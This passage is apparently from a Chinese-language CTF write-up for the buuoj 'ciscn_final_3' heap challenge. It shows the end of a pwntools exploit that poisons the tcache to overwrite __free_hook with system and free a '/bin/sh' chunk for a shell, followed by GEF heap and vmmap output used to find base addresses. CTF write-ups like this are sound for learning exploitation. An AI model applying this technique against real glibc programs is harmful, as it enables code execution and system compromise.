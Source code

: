 ```python
delete(1)  # tache(0x81).e -> c -> c -> c
add(10, 0x70, p64(libc.symbols["__free_hook"]))  # tache(0x81).e -> c -> __free_hook
add(11, 0x70, "a")  # tache(0x81).e -> __free_hook
add(12, 0x70, p64(libc.symbols["system"]))  # *__free_hook = libc.symbols["puts"]
# 本地用system测会有问题 可以用pust替代先看效果
# x /xg &__free_hook 查看__free_hook有没被修改(默认为NULL)


# === Step-6: getshell system("/bin/sh")
add(13, 0x70, "/bin/sh\0")  # 这里的size随意 只要是程序允许申请的大小即可
delete(13)  # trigger __free_hook # get shell

sh.interactive(">>>interactive>>>")

```





# Step-1: Make and Get Fake Chunk

- heap chunks查看当前chunk  刚刚申请的chunk size=0x30 地址为 0x555555b5de70

```assembly
heap chunks # add(0, 0x20, "a") 之后的
Chunk(addr=0x555555b4c010, size=0x250, flags=PREV_INUSE)
    [0x0000555555b4c010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555555b4c260, size=0x11c10, flags=PREV_INUSE)
    [0x0000555555b4c260     00 1c 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555555b5de70, size=0x30, flags=PREV_INUSE) # add(0, 0x20, "a") malloc的size=0x30的chunk
    [0x0000555555b5de70     61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    a...............]
Chunk(addr=0x555555b5dea0, size=0xf170, flags=PREV_INUSE)  ←  top chunk
```

> heap chunks是从上往下地址由低到高现实的，heap往高地址生长，后续chunk会append到后面且在top chunk低地址方向

- vmmap查看heap基址  0x0000555555b4c000

```assembly
vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
# 下面这个是heap的基址
0x0000555555b4c000 0x0000555555b6d000 0x0000000000000000 rw- [heap]
0x00007fe622271000 0x00007fe622275000 0x0000000000000000 rw- 
......
# 下面这个是libc的基址
0x00007fe6223b9000 0x00007fe6225a0000 0x0000000000000000 r-x /home/kali/CTF/buuoj/libc.so.6
0x00007fe6225a0000 0x00007fe6227a0000 0x00000000001e7000 --- /home/kali/CTF/buuoj/libc.so.6
0x00007fe6227a0000 0x00007fe6227a4000 0x00000000001e7000 r-- /home/kali/CTF/buuoj/libc.so.6
0x00007fe6227a4000 0x00007fe6227a6000 0x00000000001eb000 rw- /home/kali/CTF/buuoj/libc.so.6
0x00007fe6227a6000 0x00007fe6227aa000 0x0000000000000000 rw- 
# 下面这个是程序的基址
0x00007fe6227aa000 0x00007fe6227ac000 0x0000000000000000 r-x /home/kali/CTF/buuoj/ciscn_final_3
......
0x00007fe6229ad000 0x00007fe6229d4000 0x0000000000000000 r-x /home/kali/CTF/buuoj/ld.so  ......
```

